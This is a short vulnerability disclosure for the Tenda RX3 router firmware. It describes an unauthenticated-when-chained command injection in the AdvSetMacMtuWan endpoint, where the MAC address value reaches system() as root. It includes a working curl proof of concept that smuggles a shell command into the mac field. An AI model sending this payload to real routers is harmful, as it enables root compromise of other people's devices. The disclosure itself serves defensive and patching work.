


| Firmware Name | Firmware Version    | Download Link |
| ------------- | ------------------- | ------------- |
| RX3           | V16.03.13.11_multi  | https://static.tenda.com.cn/tdeweb/download/RX3/US_RX3V1.0br_V16.03.13.11_multi_TDE01.zip |

## Analysis

In the httpd binary, the function `fromAdvSetMacMtuWan` handles requests to `/goform/AdvSetMacMtuWan`. When `cloneType=2` (manual MAC), the `mac` parameter is stored in NVRAM key `wan1.macaddr` without sanitization. The `multiWAN` binary later reads this value and passes it to `doSystemCmd("ifconfig %s hw ether %s")`, which calls `system()`, allowing arbitrary command execution as root.

This endpoint requires authentication. Combined with the [authentication bypass](../auth_bypass/detail.md), it can be exploited without credentials from the LAN.



## POC

```
curl -i -X POST "http://192.168.0.1/goform/AdvSetMacMtuWan?reasy-ui-1.0.3.js" -d "wanMTU=1500&wanSpeed=0&cloneType=2&mac=AA:BB:CC;id>/tmp/pwned"
```



## Demo

https://github.com/user-attachments/assets/250df734-228d-4044-bc0f-8a3774505fd2
